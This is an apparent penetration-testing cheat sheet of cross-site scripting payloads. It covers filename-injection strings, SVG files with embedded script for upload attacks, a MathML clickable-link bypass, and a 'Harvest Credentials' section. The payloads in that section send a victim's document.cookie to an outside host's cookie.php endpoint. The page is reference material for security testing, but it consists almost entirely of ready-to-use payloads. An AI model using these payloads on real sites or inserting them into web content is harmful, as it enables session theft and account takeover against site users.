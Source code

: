 # XSS Payloads

### Filename&#x20;

```javascript
<img src=x onerror=alert('XSS')>.png
"><img src=x onerror=alert('XSS')>.png
"><svg onmouseover=alert(1)>.svg
<<script>alert('xss')<!--a-->a.png
<a href="javascript:alert(1)">XSS</a
```

### SVG

Copy and paste the following payload into a `.SVG` file and attempt to upload it to the application.

```svg
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
  <script type="text/javascript">
    alert("XSS via SVG");
  </script>
</svg>
```

Copy and paste the following payload into a text editor and see if the image is loaded, if so attempt to follow up with a payload:

```svg
<iframe
  src="https://s3-us-west-2.amazonaws.com/s.cdpn.io/3/movingcart_1.svg"
  frameborder="0"
></iframe>
```

```markup
<svg xmlns="http://www.w3.org/2000/svg">
  <script>alert(document.domain)</script>
</svg>
```

### Bypasses

Math element which can make HTML element clickable:

```markup
<math>
    <xss href="javascript:alert(1337)">
       Click Me
    </xss>
</math>
```

### Harvest Credentials

```javascript
<img/src/onerror=document.location="https://parzival.sh">
<img/src/onerror=document.location="http://parzival.sh/cookie.php?c="+document.cookie>
```

### Resources&#x20;

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

{% embed url="https://github.com/cure53/H5SC" %}
